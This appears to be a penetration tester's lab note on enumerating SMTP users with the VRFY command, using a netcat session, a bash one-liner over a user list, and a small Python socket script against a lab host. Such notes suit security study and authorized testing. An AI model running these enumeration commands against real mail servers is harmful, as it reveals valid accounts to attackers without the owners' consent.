 #SMTP Enumeration

## Manually

1. use nc to connect `nc -nv xx.xx.x.115 25`
2. then once connected via smtp use `VRFY *username*`

```
root@kali:~/Desktop/attack# nc -nv xx.xx.x.115 25
(UNKNOWN) [xx.xx.x.115] 25 (smtp) open
220 xxx.xxx.com ESMTP Sendmail 8.12.8/8.12.8; Sat, 7 May 2016 11:36:17 +0300
VRFY bob
250 2.1.5 <bob@xxx.xxx.com>
VRFY idontexist
550 5.1.1 idontexist... User unknown
```

## Using bash
1. Create a list of users in a text file
2. run this one liner `for user in $(cat users.txt); do echo VRFY $user | nc -nv -w 1 xx.xx.x.115 25 2>/dev/null | grep ^"250"; done`

## Using python
* The below script can be used one by one `./smtp-enum.py bob`
* or part of a bash oneliner `for user in $(cat users.txt); do ./smtp-enum.py $user | grep "250"; done`

```
#!/usr/bin/python

import socket
import sys

if len(sys.argv) != 2:
	print "Usage smtp-enum.py <username>"
	sys.exit(0)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect=s.connect(('10.11.1.115', 25))
banner=s.recv(1024)
print banner
s.send('VRFY ' + sys.argv[1] + '\r\n')
result=s.recv(1024)
print result
s.close()
```
